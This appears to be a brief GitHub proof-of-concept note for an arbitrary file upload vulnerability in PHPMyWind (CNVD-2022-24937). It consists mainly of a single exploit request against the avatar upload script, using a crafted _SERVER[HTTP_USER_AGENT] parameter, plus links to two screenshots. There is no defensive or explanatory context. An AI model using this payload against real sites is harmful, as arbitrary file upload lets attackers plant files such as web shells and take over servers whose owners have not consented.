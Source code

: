 # PHPMyWind(CNVD_2022_24937) 任意文件上传
payload:/data/avatar/upload.php?_SERVER[HTTP_USER_AGENT][]=1
![image](https://user-images.githubusercontent.com/53397197/187666967-9d65e970-8b1c-4137-bfe2-eeae91de7e6e.png)
![image](https://user-images.githubusercontent.com/53397197/187666995-75fe9c99-12a5-4e08-a1c9-95af84bb0827.png)

